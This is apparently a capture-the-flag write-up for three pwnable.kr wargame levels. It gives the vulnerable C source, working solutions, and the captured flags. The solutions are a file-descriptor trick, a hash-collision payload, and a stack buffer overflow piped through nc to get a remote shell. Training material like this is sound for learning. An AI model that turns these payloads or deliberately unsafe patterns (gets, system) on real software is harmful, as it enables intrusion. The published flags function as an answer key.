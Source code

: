 # fd
>Mommy! what is a file descriptor in Linux?<br><br>* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link: https://www.youtube.com/watch?v=blAxTfcW9VU<br><br>ssh fd@pwnable.kr -p2222 (pw:guest)

Let's look at `fd.c`:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}
```

Pass in 0x1234 (4660) as input so that fd = 0 (so the program reads from STDIN). Then type "LETMEWIN", press enter, and get the flag.

flag: `mommy! I think I know what a file descriptor is!!`

# col

`col.c`:
```
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
        int* ip = (int*)p;
        int i;
        int res=0;
        for(i=0; i<5; i++){
                res += ip[i];
        }
        return res;
}

int main(int argc, char* argv[]){
        if(argc<2){
                printf("usage : %s [passcode]\n", argv[0]);
                return 0;
        }
        if(strlen(argv[1]) != 20){
                printf("passcode length should be 20 bytes\n");
                return 0;
        }

        if(hashcode == check_password( argv[1] )){
                system("/bin/cat flag");
                return 0;
        }
        else
                printf("wrong passcode.\n");
        return 0;
}
```

We have to input a string that's 20 bytes, then the check_password function takes every 4 bytes as an int (the function takes the char pointer to our input and casts it to a int pointer and because ints are 4 bytes in c when we dereference the pointer we are getting 4 bytes of our string as opposed to just one if we have a char pointer) and adds all of the ints up and if it equals 0x21DD09EC we get the flag. We can't use \x00 or null bytes because then strlen will calculate our string input wrong cause null bytes will make our string appear "terminated". 

Running the following command will get us the flag: ``./col `python -c 'print "\xe8\x05\xd9\x1d"+"\x01"*16'``

flag: `daddy! I just managed to create a hash collision :)`

# bof

`bof.c`:
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Classic buffer overflow question. In the assembly we see that `$ebp-0x2c` is set for the buffer, and it checks if `$ebp + 0x8 == 0xcafebabe`. So we input 52 A's, then 0xcafebabe (in little endian, so "backwards"). 

We accomplish this with the following payload: `python -c "print 'A'*52+'\xbe\xba\xfe\xca'"`. However, it seems the program checks for stack smashing, so what we need to do is keep STDIN open once we get our shell, cause the program only checks for stack smashing at the end of the `func` function. Because of this, we modify our payload: `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat)`. 

We now run `(python -c "print 'A'*52+'\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000`, see that we do indeed have a shell, then run `ls`, see the flag file, and then run `cat flag` to get our flag.

flag: `daddy, I just pwned a buFFer :)`





